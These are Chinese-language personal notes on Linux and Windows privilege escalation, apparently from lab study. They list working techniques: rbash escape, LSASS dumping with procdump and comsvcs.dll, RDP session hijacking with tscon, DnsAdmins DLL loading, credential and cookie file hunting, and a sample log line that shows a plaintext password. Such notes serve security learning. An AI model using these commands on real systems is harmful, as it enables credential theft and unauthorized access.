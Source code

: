 在此我依然记录一些细节和以前曾忽略的东西

# Linux Privilege Escalation

## 其他用户可写文件或文件夹

	find / -type f -perm -o+w 2>/dev/null
	find / -type d -perm -o+w 2>/dev/null

我们确实不应该忽略other可写的文件和文件夹，我们之前只寻找相关组或用户的，但其实具有其他用户可写权限的也都值得注意，当然这也可能会在-writable参数中有所体现。

## lsblk查看挂载的共享

## 受限shell逃逸

在环境变量正常的情况下，我们通常直接利用环境变量可以逃逸出rbash

	bash -> /usr/bin/bash

但如果环境变量都被清干净之后，并且通常我们无法恢复环境变量，那么这种方法也就废了。

我们可以通过scp传递可用二进制文件到我们登录进去的目录

又或者通过ssh执行命令来提前进入bash

	ssh hacker@localhost -t bash

这样我们就可以直接获得bash从而逃逸出rbash

## 共享对象劫持

通过ldd和readelf查看有没有从其他目录加载so，如果有，并且目录可写，那么可以直接劫持

# Windows Privilege Escalation

## 查看AppLocker策略

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## 枚举服务

最常用的枚举所有服务常见的应该就这几种

	tasklist /svc
	wmic service
	Get-Service
	sc query state=all
	Get-WmiObject -Class Win32_Service

这些都能够帮助快速获取所有服务的信息

## rdp会话劫持

通过query user查看会话，通过tscon连接对应的rdp类型的会话

	tscon <sessionID> /dest:name

其实这个在THM早已有讲述，当在server 2019以后的版本都需要输入密码才能连接，这意味着这种劫持方式可能不会太奏效，但在2019版本以前，我们依然可以尽管尝试

## SeDebugPrivilege

拥有此特权，那将有两种利用方法

1) 转储lsass

	1. 通过进程管理器
	2. prodump
		```cmd
		procdump.exe -accepteula -ma lsass.exe lsass.dmp
		```
	3. comsvcs.dll
		```cmd
		rundll32 C:\Windows\System32\Comsvcs.dll,MiniDump PID lsass.dmp full
		```

2) 通过修改任意SYSTEM进程属性将任意进程设置为其子进程，从而继承其access token

	https://decoder.cloud/2018/02/02/getting-system/

## Event Log Readers Group

如果我们在此组，那么可以尝试读取任何4688事件的日志，它记录着新进程创建事件，这也意味着通过命令行传入的一切参数也都将被捕获

```powershell
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

## DnsAdmins Group

在该组，我们应该能够控制dns服务，这在dns服务在DC上应该是非常常见

dns服务有一个属性ServerLevelPluginDll，根据微软官方文档的描述，该属性能够为我们加载任意dll

我们可以通过手动修改注册表：

	reg add HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll /t REG_SZ /d <dll绝对路径> /f

或者通过dnscmd设置：

	dnscmd /config /serverlevelplugindll <dll绝对路径>

这里值得注意的是，dnscmd本质上也是直接修改注册表，所以这里必须得是绝对路径，否则dns服务可能无法从相对路径找到文件

	sc stop dns
	sc start dns

重启dns服务后，dll将被加载

## 善于SharpUp和PowerUp以节省时间

## 文件搜索

	findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
	gci -Path C:\ -Include *.txt, *.ini, *.cfg, *.config, *.xml -Recurse -ErrorAction SilentlyContinue

## StickyNotes数据库

	C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

## cmdkey - RDP

cmdkey /list存放了凭据，如果用户借此来无需输入密码登录rdp的话，那么我们也将能够利用此凭据登录rdp

## 恶意lnk 细节

在server 2019版本的测试当中，当通过windows资源管理器访问恶意lnk文件所在目录时，将会自动访问UNC path，即：无需直接执行lnk，即可达到目的。

说明windows资源管理器在当你访问到这个目录的时候就已经开始请求文件，但并不会执行它，所以我们也只能获取hash

## FireFox cookie

	$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite

## 不再受支持的老系统漏洞利用

尽管老系统已经不再受支持，但仍然有部分企业为了稳定性而不选择系统的更新迭代，像地方政府单位、部分中小学甚至是高校，所以当遇到这些老系统时，老漏洞仍然值得搜寻

	https://github.com/rasta-mouse/Sherlock

